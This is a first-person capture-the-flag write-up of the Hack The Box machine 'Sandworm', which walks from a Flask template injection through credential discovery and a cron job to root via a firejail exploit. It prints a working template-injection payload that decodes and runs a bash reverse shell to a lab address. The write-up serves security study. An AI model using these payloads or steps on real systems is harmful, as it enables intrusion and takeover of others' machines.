# Sandworm

#### _August 16th, 2023_

#### Difficulty: Medium

---
 I started working on this box by conducting a full nmap scan. The scan revealed three open ports:
                80, 22 and 443. Port 80 seems to be redirecting to url <b>ssa.htb</b>.
                  
                
                  
                On browser traveling to the URL in question I found a web app called "Secret Spy Agency".
                The web app seems to be powered by Flask, revealed in the footer. On "Contact" page the application
                has a form field where the user can "Submit PGP-encrypted tips".  
                  
                
                  
                After looking around the page further and trying some different paths, 
                I was also able to find a login page at ssa.htb/admin:
                  
                
                  
                The login page however did not reveal anything interesting and any default credentials did not work.
                Moving to the guide page on the web application I found a demonstration page, where I can encrypt,
                decrypt and verify PGP messages:
                  
                
                  
                After spending some time and learning how PGP works I decided to try and see if this page has any vulnerabilties.
                I tried to inject commands straight into my crypted messages without success. After Googling about Flask and 
                injections I stumbled upon a blog post written <a href="https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/">here</a>.
                The blog post describes an Server-Side Template Injection (SSTI) on a Flask application.
                  
                The last of the three 'demonstration' fields where the user verifies a signed message pops open 
                a modal window after submitting which could be using a template. On the modal window there is a description of who has signed the message.
                This got me thinking, if I could create a PGP keypair with an arbitrary name or email address and use that to pass the injection to the application.
                The username and email are the only variables that the user is able to control in the output.
                  
                First, I generated a PGP key-pair with the name "&#123;&#123; 77 &#125;&#125;". After that, I signed a random .txt file as this user
                and passed the output to the web application and <b>It worked</b>. In the image below, we can see that the signature is from "49",
                which means that the injection was executed succesfully.
                  
                
                  
                Reading the blog post mentioned above further there was an example payload to execute commands with Python's os.popen()
                to gain access to the os.
                The payload is as follow:
                  
                <code>&#123;&#123;request.application.__globals__.__builtins__.__import__('os').popen('id').read()&#125;&#125;</code>
                  
                Next, I tried to inject this payload and see if it would work in this particular application and it indeed did. On the output
                below we can see our uid printed out:
                  
                
                  
                The next step was to craft a payload to gain shell access on my attacker machine. Trying to create a reverse shell script,
                download it from my host machine onto the target machine did not work, hinting me that the user is restricted from downloading
                anything. I also tried to do a simple bash revshell, but gnupg does not allow a name with '<' and '>' in name.
                  
                
                  
                Luckily I remember using b64 encoded string for revshell in a previous lab and gave it a try. It worked perfectly!
                The payload I ended up with was:
                  
                <code>&#123;&#123;request.application.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTAvNDI0MiAwPiYxCg==" |base64 -d |bash').read()&#125;&#125;</code>
                  
                  
                
                  
                Now that I had a shell on the target machine it was time to start exploring the machine itself. At first I looked for the user-flag, which
                was not in /home/atlas. After taking a look at /etc/passwd I noticed a user named 'silentobserver'. It looks like the goal is to get access to silentobserver
                and then privesc.
                  
                
                  
                Next step was to find any clues to gain access to the user 'silentobserver'. Looking around the machine I found something interesting:
                an __init__.py file at /var/www/html/SSA/SSA containing some database credentials. The Flask app seems to be using SQLAlchemy database.
                  
                
                  
                Database credentials however seemed like a deadend, because our user does not have access to mysql. After exploring the machine further
                however, I was able to find an admin.json file inside /home/atlas/.config/httpie/sessions/localhost_5000 which revealed the credentials
                for the user silentobserver!
                  
                
                  
                Using these credentials I was able to log in to the user using SSH and grab the user flag:
                  
                
                  
                After user access it was time to start looking for privesc. After enumerating for a while 
                not finding anything interesting I downloaded PSPY32 on the target machine
                and ran it looking for any interesting processes running:
                  
                
                  
                The output did indeed show something interesting: there is a cron job running which executes "cleanup.sh"
                after which the process cd's to /opt/tipnet and runs /usr/bin/cargo from tipnet folder.
                  
                
                  
                Traveling to the tipnet-folder I found a directory with some interesting stuff: source Rust files, a git folder, 
                and some rust configuration files:
                  
                
                  
                The 'src' subfolder contained a rust file called 'main.rs'. Reading this file it seems like it is used to pull fresh
                submissions into a database. On one of the lines I also found MySQL credentials.
                  
                
                  
                From a prior attempt I remember the account 'atlas' did not have the rights to log into MySQL. 
                Now I gave the credentials above a shot and was succesfully logged into the MySQL database:
                  
                
                  
                The MySQL database, however was a deadend. There was some interesting stuff like apparently grabbed sigint messages and
                tip submissions but nothing useful. At this point I took a step back and looked at the PSPY output again. From the output I noticed a folder that
                is recursively deleted by the process at /opt/crates. Listing the contents of the folder revealed a similar folder structure to
                the tipnet folder, but this time instead of main.rs file it the src folder contained file called lib.rs. 
                  
                
                  
                Opening the lib.rs file I noticed that unlike main.rs, this file had write access. I figured I could be able to use this Rust
                script to create a new shell with higher privileges. After some research I added this line into the code and fired up a nc listener:
                  
                
                  
                After a while the cron job executed again and I caught a shell as atlas user again using nc:
                  
                
                  
                Using the 'id' command I noticed that I have been assigned a new group: 1002(jailer):
                  
                
                  
                It seems that the machine is running firejail. After some googling I found a firejail priv esc exploit <a href="https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25">here</a>.
                The exploit requires two shells, so next I started another shell as Atlas user. After that I copied the exploit.py file to the target machine in 
                /tmp folder and gave it execution permission.
                  
                However, running the exploit I got no output. I figured this might be because of the shell I was using and would require me to upgrade it.
                To combat this, I added my id_rsa.pub file to /home/atlas/.ssh using vim. After that, i ssh'd to the target machine as atlas.
                  
                
                  
                After these steps, I was able to run the exploit on one shell and use firejail on the second shell to gain root access. <b>Machine pwned!</b>
                  
                
                  